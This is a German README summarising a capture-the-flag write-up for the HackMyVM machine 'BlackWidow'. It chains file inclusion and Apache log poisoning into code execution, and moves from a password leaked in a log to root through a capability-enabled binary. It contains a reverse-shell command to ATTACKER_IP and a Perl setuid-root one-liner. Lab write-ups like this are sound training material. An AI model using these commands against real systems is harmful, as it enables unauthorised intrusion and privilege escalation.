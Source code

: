 # BlackWidow - HackMyVM Writeup

![BlackWidow VM Icon](BlackWidow.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "BlackWidow" (Schwierigkeitsgrad: Hard), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** BlackWidow
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Hard
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=BlackWidow](https://hackmyvm.eu/machines/machine.php?vm=BlackWidow)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 21. Mai 2024 *(Platzhalter - Bitte anpassen)*
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/BlackWidow_HackMyVM_Hard/](https://alientec1908.github.io/BlackWidow_HackMyVM_Hard/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die BlackWidow-Maschine umfasste die folgenden Schritte:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.140` unter dem Hostnamen `blackwidow`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte mehrere offene Ports, darunter SSH (22), HTTP (80, Apache), RPC/NFS (111, 2049, etc.) und einen Squid HTTP-Proxy (3128).
2.  **Web Enumeration:**
    *   `gobuster` und `wfuzz` wurden zur Enumeration des Webservers auf Port 80 eingesetzt.
    *   Die Datei `/company/started.php` wurde als interessant identifiziert.
    *   `wfuzz` fand einen LFI-anfälligen Parameter `file` in `started.php`.
    *   Über die LFI-Schwachstelle wurde `/etc/passwd` ausgelesen, was den Benutzer `viper` offenbarte.
    *   Apache-Logdateien wurden als potenzielles Ziel für Log Poisoning identifiziert.
3.  **Initial Access (via Log Poisoning & LFI):**
    *   Mittels `curl` wurde PHP-Code (``) in den User-Agent einer Anfrage an den Webserver injiziert, um diesen in die Apache `access.log`-Datei zu schreiben.
    *   Die `access.log`-Datei wurde über die LFI-Schwachstelle in `started.php` eingebunden, und der `cmd`-Parameter wurde verwendet, um Befehle auszuführen (`...access.log&cmd=id`). Dies bestätigte RCE als `www-data`.
    *   Eine Reverse Shell wurde über die LFI/Log-Poisoning-Kombination initiiert (`...access.log&cmd=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1'`), was zu einer Shell als `www-data` führte.
4.  **Privilege Escalation (www-data zu viper):**
    *   Als `www-data` wurde die Datei `/var/backups/auth.log` untersucht.
    *   In den Logs wurde ein fehlgeschlagener SSH-Login-Versuch für einen "invalid user" namens `?V1p3r2020!?` auf Port 7090 gefunden.
    *   `V1p3r2020!` wurde als Passwort für den Benutzer `viper` interpretiert.
    *   Erfolgreicher SSH-Login als `viper` mit dem Passwort `V1p3r2020!`.
    *   Die User-Flag (`/home/viper/local.txt`) wurde gelesen.
5.  **Privilege Escalation (viper zu root):**
    *   `linpeas.sh` wurde auf dem Ziel ausgeführt und identifizierte die Datei `/home/viper/backup_site/assets/vendor/weapon/arsenic` als schreibbar für `viper` und mit der Capability `cap_setuid+ep` versehen.
    *   Das `arsenic`-Binary (vermutlich ein Perl-Interpreter oder ein Wrapper) wurde mit einem Perl-Payload ausgeführt, der `POSIX::setuid(0)` aufrief und dann `/bin/bash` startete: `/home/viper/backup_site/assets/vendor/weapon/arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.
    *   Dies führte zu einer Root-Shell.
6.  **Flags:**
    *   Die User-Flag wurde als `viper` gelesen.
    *   Die Root-Flag (`/root/root.txt`) wurde als `root` gelesen.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `grep`
*   `gobuster`
*   `wfuzz`
*   `curl`
*   `awk`
*   `tr`
*   `php` (implizit)
*   `nc` (netcat)
*   `bash`
*   `script`
*   `cat`
*   `ssh`
*   `linpeas.sh`
*   `perl` (implizit)
*   `id`
*   `pwd`

## Identifizierte Schwachstellen (Zusammenfassung)

*   **Local File Inclusion (LFI):** Der `file`-Parameter in `/company/started.php` war anfällig für LFI.
*   **Apache Log Poisoning:** In Kombination mit LFI ermöglichte das Schreiben von PHP-Code in die Apache `access.log` (via User-Agent) Remote Code Execution.
*   **Preisgabe von Passwort-Hinweisen in Logs:** Ein fehlgeschlagener Login-Versuch in `/var/backups/auth.log` enthielt das Passwort für den Benutzer `viper` im Benutzernamenfeld.
*   **Unsichere Linux Capabilities:** Die Datei `/home/viper/backup_site/assets/vendor/weapon/arsenic` hatte die `cap_setuid+ep`-Capability gesetzt und war für den Benutzer `viper` schreibbar, was eine direkte Privilegieneskalation zu Root ermöglichte.

## Flags

*   **User Flag (`/home/viper/local.txt`):** `d930fe79919376e6d08972dae222526b`
*   **Root Flag (`/root/root.txt`):** `0780eb289a44ba17ea499ffa6322b335`

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*
